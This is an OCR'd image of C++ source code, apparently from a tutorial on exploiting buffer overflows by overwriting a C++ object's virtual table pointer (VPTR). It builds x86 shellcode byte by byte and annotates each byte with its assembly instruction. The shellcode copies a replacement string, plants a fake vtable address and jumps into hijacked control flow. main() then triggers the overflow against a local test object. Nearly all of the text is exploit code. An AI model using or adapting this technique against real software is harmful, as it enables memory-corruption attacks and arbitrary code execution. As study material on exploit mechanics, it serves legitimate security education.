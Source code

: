 ```c++
 //stackcode:
 
 CBuf[i++]='\xBE';                   //movl $BufferAddress+$NewBufferOffset,%esi
 
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+NewBufferOffset;i=i+4; 
 CBuf[i++]='\xBF';                                   //movl $BufferAddress,%edi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress;i=i+4; 
 CBuf[i++]='\x31';CBuf[i++]='\xC9';                  //xorl %ecx,%ecx
 CBuf[i++]='\xB1';CBuf[i++]=NewBufferSize;           //movb $NewBufferSize,%cl
 CBuf[i++]='\xF3';CBuf[i++]='\xA4';           //repz movsb %ds:(%esi),%es:(%edi)

 CBuf[i++]='\x30';CBuf[i++]='\xC0';                  //xorb %al,%al
 CBuf[i++]='\xAA';                                   //stosb %al,%es:(%edi)

 CBuf[i++]='\xBF';                        //movl $BufferAddress+$VPTROffset,%edi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+VPTROffset;i=i+4; 
 CBuf[i++]='\xB8';                                   //movl $VTABLEAddress,%eax
 LBuf=(unsigned long*)&CBuf[i];*LBuf=VTABLEAddress;i=i+4; 
 CBuf[i++]='\x89';CBuf[i++]='\xC3';                  //movl %eax,%ebx
 CBuf[i++]='\xAB';                                   //stosl %eax,%es:(%edi)

 CBuf[i++]='\xB0';CBuf[i++]=LastByte;                //movb $LastByte,%al
 CBuf[i++]='\xAA';                                   //stosb %al,%es:(%edi)

 CBuf[i++]='\x8B';CBuf[i++]='\x43';
 CBuf[i++]=(char)4*IAddress;                       //movl $4*Iaddress(%ebx),%eax

 CBuf[i++]='\x9D';                                   //popf
 CBuf[i++]='\x5B';                                   //popl %ebx
 CBuf[i++]='\x59';                                   //popl %ecx
 CBuf[i++]='\x5A';                                   //popl %edx
 CBuf[i++]='\x5E';                                   //popl %esi
 CBuf[i++]='\x5F';                                   //popl %edi

 CBuf[i++]='\x89';CBuf[i++]='\xEC';                  //movl %ebp,%esp
 CBuf[i++]='\x5D';                                   //popl %ebp
 
 CBuf[i++]='\xFF';CBuf[i++]='\xE0';                  //jmp *%eax
 
 memcpy(&CBuf[NewBufferOffset],NewBuffer,(unsigned long)NewBufferSize);
  //insert the new string into the buffer
 
 LBuf=(unsigned long*)&CBuf[VPTROffset];
 *LBuf=BufferAddress; //address of our VTABLE

 CBuf[LastByteOffset]=0; //last byte (for strcpy())

 return CBuf;
}

void main() {
 BaseClass *Object[2];
 unsigned long *VTABLEAddress;

 Object[0]=new MyClass1;
 Object[1]=new MyClass2; 

 printf("Object[0] address = %X\n",(unsigned long)&(*Object[0])); 
 VTABLEAddress=(unsigned long*) ((char*)&(*Object[0])+256);
 printf("VTable address = %X\n",*VTABLEAddress);
 
 Object[0]->SetBuffer(BufferOverflow((unsigned long)&(*Object[0]),3,BUFFERSIZE,
  0x0101,*VTABLEAddress,"newstring",0x29)); 
```